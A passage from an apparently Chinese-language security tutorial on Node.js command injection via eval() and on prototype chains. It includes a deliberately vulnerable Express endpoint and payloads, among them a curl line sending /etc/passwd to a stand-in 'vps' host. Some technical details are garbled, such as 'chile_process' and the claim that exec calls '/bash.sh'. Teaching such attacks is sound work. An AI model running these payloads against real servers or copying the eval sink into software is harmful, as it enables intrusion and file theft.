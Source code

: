 #### 危险函数所导致的命令执行

**eval()**

eval() 函数可以 计算某个字符串，并执行其中的JavaScript代码。和PHP中的eval() 函数一样，如果传递到函数中的参数可控并且没有经过严格的过滤时，就会导致漏洞的出现。

例子：

```
var express = require('express');
var app = express();

app.get('/eval', function(req, res) {
	res.send(eval(req.query.q));
	console.log(req.query.q);
});

var server = app.listen(8888, function() {
	console.log("应用实例，访问地址为: http://127.0.0.1:8888/");
});
```

漏洞利用：

node.js中的``chile_process.exec``调用的是``/bash.sh``，它是严格bash解释器，可以执行系统命令。在eval函数的参数中可以构造``require('child_process').exec('');``来进行调用。

弹出计算器(windows):

```
/eval?q=require('child_process').exec('calc');
```

[![geuyXF.md.png](https://z3.ax1x.com/2021/05/02/geuyXF.md.png)](https://imgtu.com/i/geuyXF)

读取文件(Linux)：

```
/eval?q=require('child_process').exec('curl -F "x=`cat /etc/passwd`" http://vps');
```



#### 继承与原型链

在谈到继承时，JavaScript只有一种结构：对象。每个实例对象(object)都有一个私有属性(称之为``__proto__``) 指向它的构造函数的原型对象(prototype)。该原型对象也有一个自己的原型对象(``__proto__``)，层层向上直到一个对象的原型对象为``null``。根据定义，``null``没有原型，并作为这个**原型链**中的最后一个环节。

几乎所有的JavaScript中的对象都是位于原型链顶端的``Object``的实例。

[![gEsfeA.png](https://z3.ax1x.com/2021/04/30/gEsfeA.png)](https://imgtu.com/i/gEsfeA)

可以看到其父类为object，且里面还有许多函数，这就解释了为什么许多变量可以调用某些方法。

在JavaScript中一切皆对象，因为所有的变量，函数，数组，对象都始于object的原型，即object.prototype。同时，在js中只有类才有prototype属性，而对象却没有，对象有是``__proto__``和类的``prototype``对应。且二者是等价的。

[![gEsTW8.png](https://z3.ax1x.com/2021/04/30/gEsTW8.png)](https://imgtu.com/i/gEsTW8)

当我们创建一个类时
